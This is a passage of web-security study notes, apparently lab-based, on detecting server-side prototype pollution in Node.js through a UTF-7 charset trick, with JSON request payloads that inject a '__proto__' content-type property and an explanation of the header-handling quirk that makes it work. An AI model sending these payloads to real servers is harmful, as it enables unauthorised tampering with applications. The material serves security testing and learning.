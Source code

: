 The devs may anticipate the `Content-Type` header may not contain an explicit `charset` attribute, meaning there is some logic that reverts to an empty string which could mean it is vulnerable.

If there is an object with properties visible in a response, use it to prove for sources. For example, add an arbitrary UTF-7 encoded string to a property reflected in the response:

```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"+AGYAbwBv-"
}
```

Servers won't use UTF-7 encoding by default, so it should appear in the response in encoded form. Try polluting the prototype with a `content-type` property that specifies the UTF-7 character set:

```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"default",
    "__proto__":{
        "content-type": "application/json; charset=utf-7"
    }
}
```

Repeat the first request and see if the string now gets decoded:

```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"foo"
}
```

There is a bug in `_http_incoming` Node module that makes it work even when the request's actual `Content-Type` header includes its own charset attribute. 

To avoid overwriting properties when a request contains duplicate headers, the `_addHeaderLine()` function checks no property already exists with the same key before transferring properties to an `IncomingMessage` object:

```js
IncomingMessage.prototype._addHeaderLine = _addHeaderLine;
function _addHeaderLine(field, value, dest) {
    // ...
    } else if (dest[field] === undefined) {
        // Drop duplicates
        dest[field] = value;
    }
}
```

If it does, the header being processed is effectively dropped. Due to implementation, the check includes properties inherited via the prototype chain, meaning that if you pollute the prototype with your own `content-type` property, the property representing the real header from the request is dropped.
# Detecting Prototype Pollution without Polluted Property Reflection

